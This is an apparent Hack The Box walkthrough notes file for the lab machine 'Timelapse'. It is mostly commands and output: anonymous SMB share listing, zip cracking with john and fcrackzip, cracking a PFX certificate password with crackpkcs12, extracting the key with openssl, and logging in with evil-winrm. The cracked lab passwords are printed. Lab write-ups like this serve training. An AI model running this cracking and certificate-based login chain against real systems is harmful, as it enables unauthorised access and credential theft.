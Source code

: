 add dc01.timelapse.htb and timelapse.htb to /etc/hosts
SMB enumeration 
```
crackmapexec smb dc01.timelapse.htb
```
```
smbclient -L //dc01.timelapse.htb -N
```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
downloaded a locked zip file to crack with john
```
zip2john file.zip > zip.john
john zip.john
```
john took too long. ran this instead 
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt FILE
```
PASSWORD FOUND!!!!: pw == supremelegacy
pfx file found using tool below to crack 
https://github.com/crackpkcs12/crackpkcs12
```
crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
```

Dictionary attack - Starting 22 threads

*********************************************************
Dictionary attack - Thread 16 - Password found: thuglegacy
*********************************************************
extracting the key 
```
openssl pkcs12 -in legacyy_dev_auth.pfx -out legacy.pem
```
I’ll decrypt the key using the password I set above so I don’t have to remember it:
```
openssl rsa -in legacy.pem -out legacy.key
```
And dump the certificate:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
`evil-winrm` is the best tool for connecting to WinRM from a Linux host. Looking at the usage shows how I’ll use these keys to connect:
```
evil-winrm -S -c legacyy_dev_auth.crt -k legacy.key -i timelapse.htb
```
